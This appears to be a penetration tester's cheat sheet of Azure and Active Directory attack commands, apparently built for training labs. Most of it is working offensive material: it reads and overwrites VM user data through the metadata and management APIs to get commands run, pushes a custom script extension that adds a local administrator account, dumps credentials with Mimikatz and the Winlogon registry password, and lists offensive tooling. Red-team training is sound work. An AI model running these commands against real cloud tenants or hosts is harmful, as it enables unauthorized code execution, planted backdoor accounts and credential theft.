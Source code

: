 **AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
- **Check VM Extensions**
```
Get-AzVMExtension -ResourceGroupName Research -VMName infradminsrv
```
- **Set VM Extensions**
```
## Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName Research -VMName infradminsrv -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student87 Stud87Password@123 /add /Y; net localgroup administrators student87 /add /Y"}'
```


**Random**
```
Get-AzRoleAssignment | select scope,objectid,DisplayName,objecttype,RoleDefinitionName,RoleDefinitionId | ft

xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

script -qc /bin/bash /dev/null
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**

**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```

**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```

**SnapLabs Firefox Copy-Paste Support**
```
about:config -> dom.events.testing.asyncClipboard
```

**Kali-Additional-Tools**
Tools which I clone in a new Kali image
```
cd /opt;for i in \`ls\`;do cd $i;pwd;sudo git pull;cd -;done
ADTools/
binaryninja
ghidra_9.1.2_PUBLIC
Ghostpack-CompiledBinaries
GitDorker
GitTools
impacket
Mobile-Security-Framework-MobSF
ngrok
privilege-escalation-awesome-scripts-suite
rengine
SprayingToolkit
starkiller
ysoserial
XSStrike
kerbrute
```
